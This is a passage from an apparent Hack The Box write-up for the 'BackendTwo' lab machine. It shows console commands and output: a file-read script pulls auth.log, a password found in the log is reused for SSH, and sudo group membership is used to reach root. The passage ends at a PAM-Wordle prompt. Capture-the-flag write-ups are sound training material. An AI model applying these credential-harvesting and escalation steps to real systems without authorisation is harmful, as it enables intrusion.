 ```console
See "man sudo_root" for details.

htb@BackendTwo:~$
```

SSH login was succeeded.

### Foothold: Using password in `auth.log`

Aside from storing the public key on the server and logging in via SSH, I can use the password in the `/home/htb/auth.log` file.

<details><summary>part of /home/htb/app/api/v1/endpoints/user.py</summary></details>

The auth.log file records the login status.

```console
root@kali:~/htb/Machines/BackendTwo# python3 file.py get_file -f /home/htb/auth.log

08/01/2023, 03:27:34 - Login Success for admin@htb.local
(snip)
08/01/2023, 04:34:14 - Login Failure for 1qaz2wsx_htb!
```

There is a record of a successful login with the email address `admin@htb.local`.
Perhaps admin user typed its password in the email address field, and the log records a string that looks like a password.

Since the htb user uses the same password, it is possible to use this as the password to SSH in as the htb user.

```console
root@kali:~/htb/Machines/BackendTwo# ssh -o PubkeyAuthentication=no htb@backendtwo.htb  # enter 1qaz2wsx_htb!
```

## Root

```console
htb@BackendTwo:~$ cat /etc/group | grep htb
adm:x:4:syslog,htb
cdrom:x:24:htb
sudo:x:27:htb
dip:x:30:htb
plugdev:x:46:htb
lxd:x:116:htb
htb:x:1000:
```

The htb user belongs to the sudo group.
Since `sudo` can be executed, it is possible to escalate to the root user.

```console
htb@BackendTwo:~$ sudo su
[sudo] password for htb:
--- Welcome to PAM-Wordle! ---

A five character [a-z] word has been selected.
You have 6 attempts to guess the word.

After each guess you will recieve a hint which indicates:
? - what letters are wrong.
* - what letters are in the wrong spot.
[a-z] - what letters are correct.

--- Attempt 1 of 6 ---
Word:
```
